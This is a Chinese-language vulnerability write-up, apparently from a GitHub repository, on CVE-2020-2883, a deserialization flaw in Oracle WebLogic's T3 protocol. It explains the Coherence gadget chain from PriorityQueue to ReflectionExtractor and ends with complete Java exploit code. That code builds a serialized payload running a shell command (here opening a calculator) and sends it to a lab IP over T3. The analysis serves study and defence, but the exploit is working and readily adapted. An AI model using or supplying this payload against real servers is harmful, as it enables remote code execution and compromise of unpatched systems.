



# CVE-2020-2883

**描述：**该漏洞允许远程攻击者在目标系统上执行任意代码。漏洞的存在是由于在`Oracle Weblogic `服务器中处理序列化的`T3`协议数据时进行不安全的输入验证。远程攻击者可以将特别编写的数据传递给应用程序，并在目标系统上执行任意代码，成功地利用该漏洞可以使脆弱的系统得到彻底的破坏。

## 漏洞复现

环境搭建：JDK版本：1.8.0_202，`Weblogic Server`版本：12.2.1.4.0，`Ubuntu` 16.04，虚拟机IP：`192.168.57.129`。

### 启动`Weblogic`

<div align="center">   </div>

### 执行代码

<div align="center">   </div>

### 成功弹出计算器

<div align="center">   </div>

## 原理分析	

​		`Weblogic` 默认开启 `T3` 协议，攻击者可利用T3协议进行反序列化漏洞实现远程代码执行。T3称为丰富套接字，是BEA内部协议，功能丰富，可扩展性好，其实多工双向和异步协议，经过高度优化，只使用一个套接字和一条线程。借助这种方法，基于Java的客户端可以根据服务器方需求使用多种`RMI`对象，但仍使用一个套接字和一条线程。

### 漏洞利用关键方法

​		在 Coherence 库（`Weblogic`自带的jar）中有一个序列化类的实例`ReflectionExtractor`。它允许调用任意方法，其中方法和参数都可以由攻击者控制，它的`extract()`方法如下：

```java
public E extract(T oTarget) {
        if (oTarget == null) {
            return null;
        } else {
            Class clz = oTarget.getClass();

            try {
                Method method = this.m_methodPrev;
                if (method == null || method.getDeclaringClass() != clz) {
                    this.m_methodPrev = method = ClassHelper.findMethod(clz, this.getMethodName(), ClassHelper.getClassArray(this.m_aoParam), false);
                }
				
                return method.invoke(oTarget, this.m_aoParam);// 可以构造实现任意方法的调用
            } catch (NullPointerException var4) {
                throw new RuntimeException(this.suggestExtractFailureCause(clz));
            } catch (Exception var5) {
                throw ensureRuntimeException(var5, clz.getName() + this + '(' + oTarget + ')');
            }
        }
    }
```

### 构造调用链

​		通常需要多个方法调用才能实现远程代码执行。服务器端接受序列化的数据到会调用反序列化方法，反序列化方法中会调用到`readObject()`，所以调用链最开始的方法是`readObject()`。为了构造完整的调用链，需要能够从`readObject()`调用任意`Comparator`的`compare()`方法。这可以使用`PriorityQueue`类。下面是`PriorityQueue`的方法：

```java
	private void readObject(java.io.ObjectInputStream s)
        throws java.io.IOException, ClassNotFoundException {
        // Read in size, and any hidden stuff
        s.defaultReadObject();

        // Read in (and discard) array length
        s.readInt();

        SharedSecrets.getJavaOISAccess().checkArray(s, Object[].class, size);
        queue = new Object[size];

        // Read in all elements.
        for (int i = 0; i < size; i++)
            queue[i] = s.readObject();

        // Elements are guaranteed to be in "proper order", but the
        // spec has never explained what that might be.
        heapify();
    }
	private void heapify() {
        for (int i = (size >>> 1) - 1; i >= 0; i--)
            siftDown(i, (E) queue[i]);
    }
	private void siftDown(int k, E x) {
        if (comparator != null)
            siftDownUsingComparator(k, x);
        else
            siftDownComparable(k, x);
    }
```

调用链如下：

```java
java.util.PriorityQueue.readObject()
  java.util.PriorityQueue.heapify()
  	java.util.PriorityQueue.siftDown()
  		java.util.PriorityQueue.siftDownUsingComparator()
```

​		`SiftUpUsingComparator()`可以调用任意比较器的`compare()`方法 ：

```java
	private void siftUpUsingComparator(int k, E x) {
        while (k > 0) {
            int parent = (k - 1) >>> 1;
            Object e = queue[parent];
            if (comparator.compare(x, (E) e) >= 0)
                break;
            queue[k] = e;
            k = parent;
        }
        queue[k] = x;
    }
```

​		在创建`PriorityQueue`对象时，传入`ExtractorComparator`实例化的对象。`ExtractorComparator`的`compare()`方法中会调用`extract()`：

```java
public int compare(T o1, T o2) {
        Comparable a1 = o1 instanceof Entry ? (Comparable)((Entry)o1).extract(this.m_extractor) : (Comparable)this.m_extractor.extract(o1);
        Comparable a2 = o2 instanceof Entry ? (Comparable)((Entry)o2).extract(this.m_extractor) : (Comparable)this.m_extractor.extract(o2);
        if (a1 == null) {
            return a2 == null ? 0 : -1;
        } else {
            return a2 == null ? 1 : a1.compareTo(a2);
        }
    }
```

​		`Coherence` 库中有`ChainedExtractor`类允许链接 `extract()`调用，下面是其 `extract()`方法：

```java
public E extract(Object oTarget) {
        ValueExtractor[] aExtractor = this.getExtractors();
        int i = 0; 

        for(int c = aExtractor.length; i < c && oTarget != null; ++i) {
            oTarget = aExtractor[i].extract(oTarget);
        }

        return oTarget;
    }
```

​		方法中最开始是得到所有的`Extractors`，然后迭代循环调用数组元素的`extract()`。

​		自此可以提前构造`ReflectionExtractor`对象，然后实现`RCE`，主要是利用下面两个性质：

- 通过调用 `runtime.exe()`执行任意命令。
	
- 通过调用 `Method.invoke()`任意调用方法。

  下面是构造的三个`ReflectionExtractor`对象：

```java
ReflectionExtractor reflectionExtractor1 = new ReflectionExtractor("getMethod", new Object[]{"getRuntime", new Class[]{}});
        ReflectionExtractor reflectionExtractor2 = new ReflectionExtractor("invoke", new Object[]{null, new Object[]{}});
        ReflectionExtractor reflectionExtractor3 = new ReflectionExtractor("exec", new Object[]{new String[]{"/bin/bash", "-c", "gnome-calculator"}}); // 打开计算器
        ValueExtractor[] valueExtractors = new ValueExtractor[]{
                reflectionExtractor1,
                reflectionExtractor2,
                reflectionExtractor3,
        };
```

​		将它们放入`ValueExtractor`数组中，传入`ChainedExtractor`中作为参数。上一个的结果作为下一个调用的对象。具体执行如下：

```java
1、Method getRuntime = Runtime.class.getMethod("getRuntime", new Class[]{});
2、Object invoke = getRuntime.invoke(null, new Object[]{});
3、invoke.exec("/bin/bash -c gnome-calculator"); // 执行这一步就是打开计算器
```
### 调用链

结合上面的描述，构造服务器端反序列化引发的调用链如下：

```java
java.util.PriorityQueue.readObject()
  java.util.PriorityQueue.heapify()
  	java.util.PriorityQueue.siftDown()
  		java.util.PriorityQueue.siftDownUsingComparator()
  			com.tangosol.util.comparator.ExtractorComparator.compare()
  				com.tangosol.util.extractor.ChainedExtractor.extract()
  					com.tangosol.util.extractor.ReflectionExtractor.extract()
  						java.lang.reflect.Method.invoke()
```

最后的`invoke()`就是可以调用任意方法区执行任意命令。

### 漏洞利用的代码

下面是漏洞利用的代码：

```java
	public static void main(String[] args) throws Exception {
	
        ReflectionExtractor reflectionExtractor1 = new ReflectionExtractor("getMethod", new Object[]{"getRuntime", new Class[]{}});
        ReflectionExtractor reflectionExtractor2 = new ReflectionExtractor("invoke", new Object[]{null, new Object[]{}});
        ReflectionExtractor reflectionExtractor3 = new ReflectionExtractor("exec", new Object[]{new String[]{"/bin/bash", "-c", "gnome-calculator"}});

        ValueExtractor[] valueExtractors = new ValueExtractor[]{
                reflectionExtractor1,
                reflectionExtractor2,
                reflectionExtractor3,
        }; //构造的调用链

        ReflectionExtractor reflectionExtractor = new ReflectionExtractor("toString", new Object[]{});
        ValueExtractor[] valueExtractors1 = new ValueExtractor[]{
                reflectionExtractor
        }; // 构造一个临时的参数，后面会利用反射替换掉

        ChainedExtractor chainedExtractor1 = new ChainedExtractor(valueExtractors1);

        PriorityQueue queue = new PriorityQueue(2, new ExtractorComparator<>(chainedExtractor1));
        queue.add("1");
        queue.add("1"); // 这里传入的参数可以随意
        
        Class<?> clazz = ChainedExtractor.class.getSuperclass();
        Field m_aExtractor = clazz.getDeclaredField("m_aExtractor");
        m_aExtractor.setAccessible(true);
        m_aExtractor.set(chainedExtractor1, valueExtractors); // 利用反射将构造的调用链传入

        Object[] queueArray = (Object[]) Reflections.getFieldValue(queue, "queue");
        queueArray[0] = Runtime.class; // Runtime.class作为参数传入ReflectionExtractor的extract()中,首先调用Runtime.class.getMethod()
        queueArray[1] = "1";

        // 序列化
        byte[] payload = Serializables.serialize(queue);

        // 使用T3协议发送序列化的数据，目标机器IP为192.168.57.129
        T3ProtocolOperation.send("192.168.57.129", "7001", payload);

    }
```

具体分为如下几个步骤：

1. 构造的调用链，创建`PriorityQueue`对象；
2. 创建`ChainedExtractor`对象，将构造的调用链传入其中作为参数；
3. 将`Runtime.class` 传入`PriorityQueue`中，并序列化队列；
4. 最后利用`T3`协议发送到服务器端。

​	